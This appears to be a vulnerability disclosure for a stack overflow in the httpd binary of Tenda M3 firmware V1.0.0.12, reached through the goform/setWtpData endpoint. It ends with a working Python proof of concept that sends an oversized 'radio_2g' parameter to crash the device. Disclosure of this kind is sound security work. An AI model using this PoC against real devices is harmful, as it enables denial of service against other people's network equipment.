


## Overview

- The device's official website: https://www.tenda.com.cn/product/M3.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3133.html

## Affected version

V1.0.0.12(4856)

## Vulnerability details

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formSetAPCfg` function, which can be accessed via the URL `goform/setWtpData`.



When the POST parameter `op` equals "bat", the program will enter if branch at line 139. The program then gets the POST parameters `policy_type` and `radio_2g`.



If `policy_type` is equal to `wl_basic_policy`, program will enter the if branch at line 180. There is a stack overflow in this if branch. 

If `policy_type` is equal to neither `wl_basic_policy` nor `qVLAN_policy`, program will enter the if branch at line 199. There is also a stack overflow in this if branch.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"op": b"bat",
    b"policy_type": b"none",
    b"radio_2g": b"A"*0x400
}
cookies = {
    b"user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setWtpData", data=data, cookies=cookies)
print(res.content)
```

